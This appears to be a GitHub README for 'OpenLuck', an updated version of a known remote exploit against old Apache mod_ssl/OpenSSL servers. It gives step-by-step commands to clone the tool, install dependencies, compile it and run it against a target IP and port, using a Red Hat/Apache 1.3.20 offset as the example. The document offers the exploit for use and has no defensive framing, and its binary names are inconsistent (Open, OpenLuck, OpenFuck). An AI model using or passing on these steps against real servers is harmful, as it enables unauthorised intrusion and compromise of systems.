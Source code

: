 # OpenLuck

## Usage

This Exploit (https://www.exploit-db.com/exploits/764/) is outdated. Here you can take updated

1. Download OpenLuck.c
```
git clone https://github.com/heltonWernik/Lucky.git
```
2. Install ssl-dev library

```
apt-get install libssl-dev
```

3. It's Compile Time

````
gcc -o Open OpenLuck.c -lcrypto
````

4. Running the Exploit
```
./OpenLuck
```

5. See which service you witch to exploit. For example if you need to Red Hat Linux, using apache version 1.3.20. Trying out using the 0x6a option
./OpenFuck 0x6a [Target Ip] [port] -c 40

for example:
```
./Open 0x6a 192.168.80.145 443 -c 40
```

